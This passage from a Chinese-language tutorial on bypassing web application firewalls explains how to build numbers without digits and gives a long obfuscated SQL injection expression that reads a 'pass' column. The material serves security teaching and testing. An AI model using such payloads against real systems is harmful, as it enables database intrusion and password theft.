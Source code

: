 从上面给出的示例来看没有绝对的过滤，即便平时构建一个正常SQL语句的全部关键字都被过滤了，我们也还是能找到Bypass的方法。普世的阳光和真理尚且照不到每一个角落人，为构建出来的一个工具WAF就更加不可能尽善尽美了。我们可以相信WAF能为我们抵挡很多攻击，但是绝不能百分之一百的依赖它，就算它有着世上最为健全的规则它本身也是会存在缺陷的。
  
从前面到现在基本上每条注入语句中都有数字，如果某查询的数据类型为字符串、或者做了严格限制数字要被和谐掉，这就有点棘手了，不过办法总是有的
  
![waf4](../pictures/wafi4.png)
  
![waf5](../pictures/wafi5.png)
  
上面两张图第一张是不能使用数字时通过使用数学函数得到某个数字的值，第二张则是这些数字对应的36进制的值。
  
因此有时候一个很简单的表达式可能会很复杂，或者非常长，其实际就是计算mod(a,b)
  
``` sql
  
(mod(length(trim(leading(concat(lower(conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(), pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),
  
conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi())),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*version())+true,pi()*pi(),pow(pi(), pi()))),
  
lower(conv(ceil((pi()+ceil(pi()))*pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi())*ceil(pi()+pi()),pi()*pi
  
(),pow(pi(),pi()))),
  
conv(ceil(pi()*version()),pi()*pi(),pow(pi(),pi())),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(ceil(version()*version()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi
  
(),pi())))))from(pass))),length(pass))
  
```
  

  
## 0x04 延伸及测试向量示例
  

  
a) CMS绕过实例
  
b) WAF绕过示例
  
c) SQLi Filter Evasion Cheat sheet
  
d) 测试向量
  

  